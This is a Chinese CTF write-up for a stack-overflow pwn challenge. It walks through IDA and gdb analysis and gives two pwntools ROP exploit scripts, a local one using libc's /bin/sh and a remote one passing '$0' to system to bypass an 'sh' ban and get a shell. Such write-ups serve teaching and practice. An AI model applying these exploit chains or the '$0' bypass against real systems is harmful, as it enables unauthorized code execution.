- 题目内容：
    

- ida分析附件：
    
    
    先是打印了两句话，但是没有具体的函数名，根据格式不难看出：sub_4010A0和sub_401090分别是read和printf，只是不确定中间那个是puts还是什么其他的

- gdb调试查看：
    
    因为这里无法搜索到main函数，所以不能通过disas main，这里需要先打一个main函数开头的断点才能看到main函数代码

    通过单步步过可以看到main中调用了`system`：
    
    所以ida中的`sub_401080`就是`system`，所以整合信息即可得出：`read`可以读取256字节数据存入缓冲区，保存的旧栈是8字节，新栈分配了0x30（48字节），所以0x38（56字节）即可实现溢出，`read`可读范围远大于56字节，但是我在程序找了一圈并没有找到`sh`等信息，所以思路是找到libc库中的`/bin/sh`偏移地址并通过程序GOT表中的某函数的绝对地址以及该函数的偏移地址算出基地址，然后将基地址和`/bin/sh`的偏移地址相加构造出`/bin/sh`的绝对地址在传入`system`进行执行

- 本地EXP：
    ```python
    from pwn import *

    p = process("./problem")
    # p = remote("nc1.ctfplus.cn", 49892)
    elf = ELF('./problem')

    padding = 0x38

    system_addr = elf.sym['system']
    pop_rdi_ret = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
    ret_gadget = ROP(elf).find_gadget(['ret'])[0]


    libc_base = 0x7ffff7c00000
    binsh = libc_base + 0x1d8678


    payload = b'A' * padding
    payload += p64(pop_rdi_ret)
    payload += p64(binsh)
    payload += p64(ret_gadget)  
    payload += p64(system_addr)

        
    p.send(payload)
    p.interactive()
    ```
    本地关闭ASLR之后即可拿到shell
    
    至此我以为思路对了，只要改成远程靶机打就行了，但是我突然意识到这道题没有给你对应的libc，然后自己折腾半天都没结果，突然意识到题目描述：还有一个神奇的参数可以rce，我明白了这道题大概率不是玩libc，查阅了一些资料终于知道$0可以绕过sh的禁用限制实现rce：

    system("")实际上会执行/bin/sh -c "ls"，所以system("$0")就是执行/bin/sh -c "$0"而 $0 在 shell 语法中代表当前脚本或程序的名称。在这道题目中，它指向的是当前正在运行的题目程序本身。如果题目程序是以 /bin/bash、/bin/sh 或其他 shell 解释器的路径启动的，那么 $0 就是/bin/bash、/bin/sh或者其他，所以就间接的调用了一个可用的 shell。即使题目显式禁用了 sh 命令，但程序自身的运行环境可能仍然是 shell，通过 $0 就能巧妙地复用这个已有环境，绕过对 /bin/sh 的直接限制

    
    所以新的思路就是找到程序中"$0"在哪里然后调用即可

- IDA ALT+B搜索"$0"：
    
    
    得到"$0"的地址`0x401202`：
    

- 远程EXP：
    ```python
    from pwn import *

    p = remote("nc1.ctfplus.cn", 25649)
    elf = ELF('./problem')

    padding = 0x38
    pop_rdi = 0x40119E
    ret = 0x40101a
    system_plt = elf.plt['system']
    zero_addr = 0x401202

    payload = b'A' * padding
    payload += p64(pop_rdi)
    payload += p64(zero_addr)
    payload += p64(ret)
    payload += p64(system_plt)

    p.send(payload)
    p.interactive()
    ```
    